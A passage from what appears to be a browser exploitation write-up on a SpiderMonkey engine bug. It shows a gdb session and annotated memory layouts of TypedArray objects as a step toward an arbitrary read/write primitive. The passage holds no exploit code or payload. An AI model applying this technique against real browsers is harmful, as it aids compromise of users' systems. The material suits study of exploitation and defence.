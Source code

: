 ### Obtaining a read/write primitive

So what are these values? Let’s have a look in gdb at “A” first (which is a TypedArray):

```
gdb -p $(pidof js)
 
gef➤  grep 0x4141414141414141
[+] Searching '\x41\x41\x41\x41\x41\x41\x41\x41' in memory
[+] In (0x58dcd400000-0x58dcd500000), permission=rw-
  0x58dcd469038 - 0x58dcd469040  →   "AAAAAAAA"
  0x58dcd46a0c8 - 0x58dcd46a0d0  →   "AAAAAAAA"
[+] In (0x3ee4bd600000-0x3ee4bd700000), permission=rw-
  0x3ee4bd600848 - 0x3ee4bd600868  →   "\x41\x41\x41\x41\x41\x41\x41\x41[...]"
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6'(0x7f4343996000-0x7f43439ee000), permission=r--
  0x7f43439bc440 - 0x7f43439bc460  →   "\x41\x41\x41\x41\x41\x41\x41\x41[...]"
  0x7f43439bc448 - 0x7f43439bc468  →   "\x41\x41\x41\x41\x41\x41\x41\x41[...]"
  0x7f43439bc450 - 0x7f43439bc470  →   "\x41\x41\x41\x41\x41\x41\x41\x41[...]"
  0x7f43439bc458 - 0x7f43439bc478  →   "\x41\x41\x41\x41\x41\x41\x41\x41[...]"
 
 
gef➤  x/40xg 0x58dcd46a0c8-0x40
0x58dcd46a088:    0x0000000000000000                  0x0000058dcd466700 (*shape)
0x58dcd46a098:    0x00005618d8518088 (*slots)         0x00005618d8517828 (*elementsHdr)
0x58dcd46a0a8:    0x0000058dcd46a0c8 (*elementsData)  0x00000000000003e8 (byteLength)
0x58dcd46a0b8:    0xfffe3ee4bd6007a0 (*typedArray)    0xfff8800000000000 (offset)
0x58dcd46a0c8:    0x4141414141414141 (data start)     0x0000000000000000 
0x58dcd46a0d8:    0x0000000000000000                  0x0000000000000000  
0x58dcd46a0e8:    0x0000000000000000                  0x0000000000000000  
0x58dcd46a0f8:    0x0000000000000000                  0x0000000000000000  
0x58dcd46a108:    0x0000000000000000                  0x0000000000000000 (data end)
0x58dcd46a118:    0xfffe4d4d4d4d4d4d                  0xfffe4d4d4d4d4d4d
0x58dcd46a128:    0x0000058dcd466700                  0x00005618d8518088
0x58dcd46a138:    0x00005618d8517828                  0x0000058dcd46a160 
0x58dcd46a148:    0x0000000000000050                  0xfffe3ee4bd6007e0
0x58dcd46a158:    0xfff8800000000000                  0x4242424242424242 
...
```

We can relatively easily find the same values in gdb by grepping for `0x4141414141414141` which we placed as the first value in the “A” array. To understand what these values are, we have to look at how these objects work internally. I annotated the first object in the debug view above to show what some of these values are representing.

The structure we see here is based on a NativeObject which most JavaScript objects inherit from (in the source it does not look exactly like this but it helps in understanding the layout ([https://searchfox.org/mozilla-central/source/js/src/vm/NativeObject.h#547](https://searchfox.org/mozilla-central/source/js/src/vm/NativeObject.h#547)). I tried to illustrate the memory layout below (some of the names I made up):

```
---[Meta Data]---
*shape
*slots
*elementsHeader
*elementsData  --------------
byteLength                   |
*typedArrayObj               |
offset                       |
---[Data]---                 |
0x414141414141         <-----
...
```
